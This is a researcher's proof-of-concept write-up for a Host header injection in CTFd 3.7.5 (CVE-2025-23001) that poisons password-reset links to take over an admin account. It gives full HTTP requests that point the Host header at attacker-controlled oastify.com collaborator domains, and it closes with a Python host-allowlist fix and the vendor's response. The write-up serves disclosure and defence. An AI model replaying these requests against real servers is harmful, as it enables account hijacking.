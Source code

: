 ```yaml
---
date: 2025-05-02 10:15:00
---
```


# POC CVE-2025-23001 CTFd 3.7.5

> Posted by TheWindGhost — 31/01/2025, Updated: 19/04/2025
>
> Report co-authors:
>
> - h??? (PTIT Ho-Chi-Minh City)
> - thD (VLUTE Vinh-Long City)
> - taneora (HUST Ha-Noi City)

The vulnerability was originally discovered by **TheWindGhost** (Security Researcher), who was the first to identify and
confirm the issue. Co-Authors contributed technical write-up, report structuring, and analysis.

---

## 1. Introduction

I first examined the CTFd source code and noticed that it did not secure or filter the Host header. This is where the
vulnerability starts.

![Source Code Snippet 1](https://codetoanbug.com/wp-content/uploads/2025/01/image-8.png)

---

![Source Code Snippet2](https://codetoanbug.com/wp-content/uploads/2025/01/474813695_585846764257618_3528770934854834765_n-1024x507.jpg)

---

## 2. Host Header Injection

The request looks like this:

```http
- Test Host Header Injection
GET / HTTP/2
Host: 0ghb7us820bm4l90zd2vvixkhbn2bszh.oastify.com
Cookie: delete
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

I changed the Host header to use my Burp Suite collaborator. If the request is received by my server, this is a bug.

---

## 3. Exploit the Vulnerability & Steps to Exploit Reset Password

I logged into my user account and reset my password. The password reset token was included in the URL. Next, I attempted
to exploit this to reset the admin’s password.

![Reset Link Clicked](https://codetoanbug.com/wp-content/uploads/2025/01/474390321_579415605089692_484539837654316394_n-1024x254.jpg)

I obtained the admin’s email from Discord and sent a request to reset the password:

![Password Reset Form](https://codetoanbug.com/wp-content/uploads/2025/01/474380385_635935822228710_1744942101823595149_n-1024x576.jpg)

```http
- Exploit Host Header Injection
POST /reset_password HTTP/2
Host: zx0aot97jzsllkqzgcjuchejya41ssgh.oastify.com
Cookie: delete
Content-Length: 120
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)…
Accept: text/html,application/xhtml+xml,...
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=mail-victim%40gmail.com&_submit=Submit&nonce=fake-937dd2059eb240c25ca77ff5743d4aee
```

And I changed the collaborator domain in the Host header request. Then, I waited for the admin to click the reset link
and successfully hijacked the password reset process.

![Hijacked Password Reset](https://codetoanbug.com/wp-content/uploads/2025/01/475870028_1807425050089165_691369729352272252_n-1024x523.jpg)
![Admin Account Access](https://codetoanbug.com/wp-content/uploads/2025/01/475112839_481305765023487_5607908620398554236_n-1024x469.jpg)
![Screenshot from Dev](https://codetoanbug.com/wp-content/uploads/2025/01/474801751_977215701140368_2091945604793403445_n-949x1024.jpg)

Finally, I successfully exploited the vulnerability. One hour later, I spoke with the developer, but he didn’t
understand that I had hacked and gained access to his account. I explained it to him and asked him to send me a
screenshot of the email.

![Email Screenshot](https://codetoanbug.com/wp-content/uploads/2025/01/474526880_597855626328868_3119515180978439323_n-1024x529.jpg)

---

## 5. Security Fix

```python
- To secure against this vulnerability, add the following code:
import os
import re
from flask import request, abort
from CTFd import create_app

ALLOWED_HOSTS = {
"example.com", # change domain server
"192.168.1.1", # change ip public
}

ALLOWED_PROXIES = {"127.0.0.1", "192.168.1.1"} # change ip public

BLOCKED_HOST_REGEX = re.compile(r"^(localhost|127\.0\.0\.1|0\.0\.0\.0|::1|local)$", re.IGNORECASE)

app = create_app()

@app.before_request
def strict_host_protection():
host = request.headers.get("Host", "").split(":")[0]
forwarded_host = request.headers.get("X-Forwarded-Host", "").split(":")[0]
remote_addr = request.remote_addr
forwarded_for = request.headers.get("X-Forwarded-For", "").split(",")[0].strip()
real_ip = forwarded_for if forwarded_for else remote_addr

if forwarded_host and forwarded_host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {forwarded_host} -> {real_ip}")
abort(400)

if remote_addr in ALLOWED_PROXIES:
if BLOCKED_HOST_REGEX.match(host) or host not in ALLOWED_HOSTS:
print(f"[SECURITY] block: {host} -> {real_ip}")
abort(400)
else:
abort(400)

if __name__ == "__main__":
app.run(debug=False, host="127.0.0.1", port=4000)
```

---

## 6. Vendor Response

When I reached out to the CTFd vendor, they told me that users need to configure Nginx for security. However, according
to cybersecurity best practices, security should be **built by design and by default**. CTFd does not follow this
policy. MITRE accepted my submission based on this reasoning.

> **Secure by Design and Secure by Default**
>
> - [Beginner’s Guide on Secure byDesign](https://safestack.io/blog/resources/secure-by-design-and-default-a-beginners-guide)
> - [CISA: Secure by Design](https://www.cisa.gov/securebydesign)
